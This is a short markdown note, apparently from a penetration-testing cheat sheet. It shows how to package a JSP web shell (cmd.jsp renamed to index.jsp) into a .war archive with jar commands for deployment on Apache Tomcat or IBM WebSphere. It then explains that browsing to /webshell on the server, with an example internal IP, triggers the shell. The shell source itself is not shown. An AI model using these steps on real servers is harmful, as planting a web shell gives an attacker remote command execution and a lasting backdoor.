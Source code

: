 How about .war file for Apache tomcat or IBM websphere,...

Make war file to deploy in Tomcat

Note: `Change cmd.jsp to index.jsp `
```
mkdir webshell
cp index.jsp webshell
cd webshell
jar -cvf ../webshell.war *
```
How to trigger:
Go to path `/webshell` it will trigger. Ex: http://192.168.1.4:8080/webshell/

![image](https://user-images.githubusercontent.com/24661746/131221623-0041627a-729c-4337-99c5-0b0d13e70d40.png)


